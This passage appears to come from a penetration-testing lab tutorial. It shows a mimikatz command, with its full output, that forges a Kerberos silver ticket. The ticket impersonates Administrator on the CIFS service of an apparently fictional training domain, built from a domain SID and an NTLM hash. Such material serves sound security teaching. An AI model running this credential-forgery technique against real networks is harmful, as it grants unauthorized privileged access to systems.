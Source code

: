 
## Create a Silver Ticket


	C:\Tools> .\mimikatz.exe "kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-1870146311-1183348186-593267556 /rc4:027c6604526b7b16a22e320b76e54a5b /service:cifs /ticket:sql01.kirbi" exit
		
	User      : Administrator
	Domain    : inlanefreight.local (INLANEFREIGHT)
	SID       : S-1-5-21-1870146311-1183348186-593267556
	User Id   : 500
	Groups Id : *513 512 520 518 519
	ServiceKey: 027c6604526b7b16a22e320b76e54a5b - rc4_hmac_nt
	Service   : cifs
	Lifetime  : 1/15/2024 9:01:04 AM ; 1/12/2034 9:01:04 AM ; 1/12/2034 9:01:04 AM
	-> Ticket : sql01.kirbi

	 * PAC generated
	 * PAC signed
	 * EncTicketPart generated
	 * EncTicketPart encrypted
	 * KrbCred generated

	Final Ticket Saved to file !

	mimikatz(commandline) # exit
	Bye!
	


![Mimikatz Silver](/Ticket-Abuse/Silver-Ticket/images/Mimikatz-Silver.png) 
